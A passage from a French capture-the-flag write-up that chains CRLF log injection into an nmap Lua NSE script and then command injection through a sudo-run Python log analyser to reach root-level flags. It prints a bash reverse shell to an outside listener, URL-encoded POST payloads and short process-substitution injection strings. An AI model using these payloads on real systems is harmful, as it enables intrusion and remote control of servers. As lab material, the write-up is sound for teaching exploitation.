        fwrite($file, $key." = ".$value."\n");
    }
    fclose($file);

```

En plein ce qu'on cherche, du code écrit par Timmy!

Injection CRLF... intéressant! ça nous permettrait certainement de manipuler les logs de façon inatendue. Il par contre il a patché la vulnérabilité... mais voyons voir l'implémentation, chaques ligne de log à un key et un value correspondant au POST form data (key:value, username:value, password:value, etc.)

Il retire les retours de lignes sur les valeurs mais pas les clés... et on peut très bien manipuler les clés et injecter des retour de ligne!

Mais à quoi ça sevirait? Pour linstant, à rien dans ce contexte... peut-être?

Si on met tout ce qu'on sait ensemble:

- On peut exécuter des scripts NSE grace a nmap
- On peut fournir un fichier log comme script NSE
- Les scripts NSE sont codé en lua
- Par pure chance, les descriptifs des logs on le préfixe `--` ce qui est interprété comme commentaire en lua
- on peut écrire n'importe quoi comme clé et valeur dans notre POST
- On peut changer de ligne dans une clé pour possiblement commenter du garbage au besoin

On peut se servir de BurpSuite pour générer une requète et la répéter au besoin.

Un fichier de log devrait normalement avoir le format suivant:

```
-- failed authentication attempt --
username = timmy
password = isuckass
[...]
```

### Le payload

Le but est décrire un script lua minimaliste pour nous permettre d'ouvrir un "reverse shell" vers le serveur

On peut utiliser [le reverse shell generator](https://www.revshells.com/) pour créer une coquille. On fourni notre l'IP de notre "listener", `Linux` comme OS et on peut utiliser un payload Bash.



Il existe toutes sortes de façon d'établir un "listener" et des services en lignes sont disponibles tel que [ngrok](https://ngrok.com/).
Dans mon cas, je fait du port forwarding dans mon routeur vers mon PC, sur lequel j'ai un [NetCat](https://linux.die.net/man/1/nc) qui attend au port 61002.

`nc -lvnp 61002`

On peut exécuter notre shell . On met ce code a l'intérieur de la méthode `action` qui est une fonction obligatoire d'un script NSE.
`prerule` est un dummy qui est là seulement car nmap en a besoin.

```lua
prerule = function() return true;end
action = function(host, port) 
    os.execute("bash -c 'sh -i >& /dev/tcp/42.101.420.69/61002 0>&1'")
end

```

Remarquez que définir une fonction a pratiquement le même format que le fichier log. Plutôt commode!

### La livraison

Le code de `login.php` fait en sorte qu'on doit absolument spécifier `username`et `password`. Par contre ça peut briser la syntaxe de notre script
Vu que le format du log a une syntaxte Lua valide, si on spécifie une constante numérique tel que '1' dans `username` et `password`, on se trouve a avoir un formulaire qui passe la validation et qui est un script Lua valide.

Voici notre payload pour le POST /login.php (URL encoded et sur une seule ligne):

>prerule=function()return%20true%3bend&action=function(host%2c%20port)%20os.execute(%22bash%20-c%20'sh%20-i%20%3e%26%20%2fdev%2ftcp%2f42.101.420.69%2f61002%200%3e%261'%22)%3b%20end&username=1&password=2

L'application admin met a notre disposition une page pouvant afficher le contenu d'un fichier log en spécifiant un paramètre `file` au POST /logs.php

Si on soumet notre requète sans être authentifié et sous une nouvelle session. Un nouveau fichier log devrait avoir le contenu suivant:

```lua
-- failed authentication attempt --
prerule = function()return true;end
action = function(host, port) os.execute("bash -c 'sh -i >& /dev/tcp/42.101.420.69/61002 0>&1'"); end
username = 1
password = 2

```

Une fois le fichier présent sur le serveur, suffit de lancer un nmap sous une nouvelle session en spécifiant le log comme script NSE.
>Note: on utilise une nouvelle session pour éviter de corrompre notre payload avec le résultat du Nmap.

On doit connaître notre token unique pour connaitre le nom de notre fichier log. On doit donc s'authentifier et naviguer vers la page /index.php pour l'obtenir.

Voici le payload POST /index.php:

`submit=&script=/var/log/desgazons/admin/log-<token>.txt`

### Le séquencement

Donc, pour éxécuter notre attaque on doit:

- Obtenir une session fraiche
- Éxécuter notre payload login
- S'authentifier pour vrai
- Obtenir notre token
- Obtenir une nouvelle session fraiche
- S'authentifier
- Éxécuter nmap en spécifiant notre log malicieux

Pour pouvoir répéter ce processus facilement on peut se préparer une série de requêtes BurpSuite



Après l'éxécution du script, on reçoit une connection sur notre listener!



On a maintenant accès au serveur en tant que utilisateur `nmap`



En explorant un peu, on peut lister le contenu de notre répertoire `home` pour y trouver un fichier `flag.txt`



Si on affiche le contenu on obtient notre quatrième flag



## Partie 5

>Au vu de la gravité de la situation, nous vous donnons carte blanche pour prendre le contrôle du compte de l'employé malveillant afin de finaliser cette investigation. Votre mission est désormais cruciale pour sécuriser notre infrastructure et rassembler toutes les preuves nécessaires. Nous avons pleinement confiance en votre expertise pour mener à bien cette tâche sensible.
>
>Merci pour votre professionnalisme et votre engagement dans cette affaire.

Le but de cette partie est d'escalader nos privilèges et de s'authentifier en tant que `timmy`

Connaissant Timmy, on sait déjà qu'il a le même mot de passe partout... alors on peut simplement `su timmy` et s'authentifier



Merci Timmy!

Si on vérifie dans son dossier `home` on y retrouve notre ciquième flag



## Partie 6

>Nous sommes face à une menace sans précédent. Cet employé représente un danger majeur, non seulement pour notre entreprise, mais pour l'ensemble de l'écosystème informatique. Sa "créativité" et son "originialité" sont d'une ampleur inimaginable, risquant de compromettre non seulement Desgazons, mais aussi la sécurité de nos clients et du réseau global.
>
>Il est vital de persévérer maintenant, plus que jamais. Vous devez pivoter une dernière fois dans notre environnement, car chaque minute perdue accroît le risque que cette menace se répande comme un virus destructeur. Cet individu pourrait devenir le point de départ d'une catastrophe informatique de grande envergure. Votre mission est notre ultime défense contre ce fléau.
>
>Nous avons besoin de votre expertise, de votre détermination, et de votre 6ème sens pour mettre fin à cette menace. Le futur de Desgazons et la sécurité de l'infrastructure mondiale sont entre vos mains.

Dernière étape, le but est donc ici de prendre contrôle total du server et devenir `root`

dans le répertoire de `timmy` on retrouve un script Python `log_analyse.py`

On peut en exfiltrer une copie base64 pour l'analyser plus facilement en local

`cat ~/log_analyse.py | base64 -w0`

<details>
<summary>Le script</summary>

```Python
#!/bin/env python3

import os
import subprocess as sp
import sys
from collections import defaultdict
from dataclasses import dataclass


@dataclass
class Authent:
    username: str
    password: str


application = input("application: ")
token = input("token: ")
file = os.path.realpath(f'/var/log/desgazons/{application}/log-{token}.txt')

if not file.startswith('/var/log/desgazons/'):
    raise Exception("What you tryna do ???")

print(f"Trying to open {file} for analysis purpose")

authents: list[Authent] = []

with open(file, 'r', encoding='utf-8') as f:
    section_is_done = True
    username = None
    password = None

    for line in f:
        if line == '-- failed authentication attempt --\n':
            section_is_done = False
            continue
        elif section_is_done is True:
            continue

        if line.startswith("username = "):
            username = line.split("username = ")[1].rstrip()

        if line.startswith("password = "):
            password = line.split("password = ")[1].rstrip()

        if None not in (username, password):
            authents.append(Authent(username=username, password=password))
            section_is_done = True
            username = None
            password = None

if len(authents) > 5:
    usernames: set[str] = set()
    passwords: dict[str, int] = defaultdict(int)

    for authent in authents:
        usernames.add(authent.username)
        passwords[authent.password] += 1

    most_used_times = 0
    most_used_password = None
    for k, v in passwords.items():
        if most_used_password is None:
            most_used_password = k
            most_used_times = v
            continue

        if v > most_used_times:
            most_used_password = k
            most_used_times = v

    # phil: timmy wtf are you doing ?
    # this code is nonsense and should never reach production plz...
    # please be less dumb and more pythonic

    # timmy: client-first !!! I did not have the time to fully read your comment
    # so I pushed the code to production,
    # but don't worry lil phil hehe
    # I've added a little spice to prevent any troublemakers to attack
    most_used_password = most_used_password.replace(
        "$", "").replace(
        "`", "").replace(
        "&", "").replace(
        "|", "").replace(
        ";", "")
    with sp.Popen(('bash', '-c', f'echo It seems like {token} tried to bruteforce {len(usernames)} different users with {len(authents)} authentification request with most used password: {most_used_password}')) as p:
        p.communicate()


```

</details>

On peut voir que ce script analyse les logs et tente de repérer des tentatives d'authentification bruteforce.

Il y a par contre un bout de code vulnérable à l'injection de commande gracieuseté Timmy!

```python
    most_used_password = most_used_password.replace(
        "$", "").replace(
        "`", "").replace(
        "&", "").replace(
        "|", "").replace(
        ";", "")
    with sp.Popen(('bash', '-c', f'echo It seems like {token} tried to bruteforce {len(usernames)} different users with {len(authents)} authentification request with most used password: {most_used_password}')) as p:
        p.communicate()

```

Il semble qu'en contrôlant la valeur de `password` on peux éxécuter des commandes arbitrairement.

Mais en quois ça nous aides, puisque nous avons déjà un accès console?

Ce script est peut-être éxécuté par différents utilisateurs.

Vérifions

Les entrées du `crontab` et une recherche de binaires `SUID` ne donne rien d'intéressant. Par contre si on liste nos permissions `sudo`



On peut éxécuter le script en tant que `rootless` sans mot de passe!

### Le plan

On peux donc éxécuter une commande en effectuant une injection dans le mot de passe, en envoyant la même requète plus de cinq fois.
Ensuite on éxécute le script avec  `sudo` pour éxécuter la commande.
On répète pour chaque commande a éxécuter

On remarque la présence d'un dossier `rootless`dans `home` possible que notre flag s'y trouve.
Une première étape serait de lister le contenu du répertoire.

Le bout de code vulnérable nous complique un peu la tâche, car il retire la plupart des caractères nous permettant d'injecter une commande.
Par contre, il reste l'injection via les redirections (<,<<,>,>>)
Il faut aussi rester compact pour entrer dans la limite arbitraire de 25 caractères que le champ `password` a dans la page login.

On peut envoyer ce POST login.php:

`>({ls,/home/rootless})`

len: 22 8-)

Encodé: `username=notEvil&password=%3e(%7bls%2c%2fhome%2frootless%7d)`

### Le coup de grace

On envoie la requète six fois minimum pour pouvoir être détecté.

puis on éxécute le programme avec l'exacte commande sudo authorisée:

`sudo -u rootless /usr/bin/python3 log_analyse.py`



On peut voir que le dossier contient un fichier `flag.txt`

On répète tout ça avec ce nouveau payload (en restant créatif car on est maintenant a 25 char 😰):

`>({cat,/home/rootless/*})`

Encodé: `username=notEvil&password=%3e(%7bcat%2c%2fhome%2frootless%2f*%7d)`



On obtient le dernier flag et Timmy, lui, son 4%. Au moin son C.V. est a jour!
